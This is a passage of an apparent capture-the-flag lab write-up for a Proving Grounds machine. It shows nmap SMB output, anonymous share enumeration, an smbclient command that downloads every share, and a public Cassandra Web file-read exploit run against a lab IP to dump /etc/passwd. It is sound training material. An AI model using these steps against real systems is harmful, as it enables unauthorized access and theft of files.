 ```bash
|   Checking for Conficker.C or higher...
|   Check 1 (port 36040/tcp): CLEAN (Timeout)
|   Check 2 (port 17908/tcp): CLEAN (Timeout)
|   Check 3 (port 30141/udp): CLEAN (Timeout)
|   Check 4 (port 42989/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h20m01s, deviation: 2h18m37s, median: 0s
| smb2-time: 
|   date: 2024-06-25T07:33:21
|_  start_date: N/A
```
{: .nolineno}
## SMB Enumeration ⤵️

With tool netexec I got these shares with no creds 🔻

![Image](Pasted%20image%2020240626224832.png)
_Netexec SMB Shares_

I accessed all the content and downloaded into the attacker machine from smbclient with these command `recurse on; prompt off; mget *`

![Image](Pasted%20image%2020240626225149.png)
_Downloaded all the data from smbclient to attacker machine_

## Web Enumeration ⤵️

I got this CMS cassandra web page from port 3000 🔻

![Image](Pasted%20image%2020240626222159.png)
_Cassandra Web Dashboard_

I enumerated further on internet and got an exploit related to `cassandra web` that reads file contents 🔻
https://www.exploit-db.com/exploits/49362

First I tried to access the passwd file 🔻

```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Clue]
└─$ python3 49362.py 192.168.225.240 /etc/passwd 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```